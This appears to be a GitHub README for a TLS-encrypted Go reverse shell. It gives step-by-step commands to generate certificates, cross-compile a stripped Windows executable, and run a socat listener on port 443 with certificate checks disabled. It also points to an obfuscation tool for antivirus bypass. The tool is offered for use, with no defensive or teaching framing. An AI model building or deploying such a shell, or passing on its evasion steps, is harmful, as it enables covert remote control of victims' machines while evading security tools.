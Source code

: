 # go reverse shell secure

A TLS enabled implementation of a clean go reverse shell "rev2go" by sathish09.

**Features**
- Interactive shell (use "gorss-interactive.go")
- TLS connectivity

**Why Go?** 

Check it out over at his blog. 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

**AV bypass**

Consider leveraging..
- https://github.com/unixpickle/gobfuscate

**Generate server certificate or disable client validation (yahoo! pew pew pew!)**
```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build

For interactive shell modify gorss-interactive.go script to use target binary of your choice, /bin/bash, /bin/sh, cmd.exe, etc

**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)



Enjoy~
